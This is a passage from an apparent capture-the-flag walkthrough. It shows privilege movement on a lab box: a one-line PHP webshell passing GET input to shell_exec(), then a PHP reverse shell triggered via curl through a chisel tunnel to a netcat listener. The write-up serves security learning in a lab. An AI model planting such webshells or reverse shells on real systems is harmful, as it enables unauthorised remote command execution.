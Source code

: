 But why does that php script work? Why can ``shell_exec()`` read a file owned by ``joanna``? It must be that the process is spawned by ``joanna``.

To test this, I copied ``main.php`` to an adjacent file, ``shell.php``. I then removed pretty much everything but the ``shell_exec()`` and turned it into a little webshell:

```php+HTML
<?php
$cmd = $_GET['cmd'] ?? 'id';
$res = shell_exec($cmd);
echo "<p> >> $cmd</p><hr><pre>$res</pre>";
?>
```

It will run ``id`` if given no parameters. Indeed, the script is being ran by ``joanna``:

![webshell 1](webshell%201.png)

:tada: And thankfully, the browser performs url-encoding by itself, so no need to fuss about spaces:

![webshell 2](webshell%202.png)

Webshells are handy in a pinch, but can be a bit restrictive. Since this is all being executed as ``joanna``, I'll start a new reverse shell so we can investigate ``joanna`` more thoroughly. First, as ``jimmy``, download a copy of the good 'ol **php-reverse-shell.php** (that is still being served by my python webserver):

> :point_up: Remember to modify `php-reverse-shell.php` to use the new port, 5555.

![download php reverse shell](download%20php%20reverse%20shell.png)

As ``jimmy``, set proper file ownership and permissions:

```bash
chown jimmy:internal php-reverse-shell.php
chmod 755 php-reverse-shell.php
```

Then, on the attacker box, set a new firewall rule and start a netcat listener:

```bash
sudo ufw allow from 10.10.10.171 to any port 5555 proto tcp
bash
nc -lvnp 5555
```

and in a separate tab on the attacker box, trip the reverse shell with a GET request to it (this request goes through the tunnel created with **chisel**):

```bash
curl http://localhost:52848/php-reverse-shell.php
```

And there's the new shell!

![joanna rev shell](joanna%20rev%20shell.png)
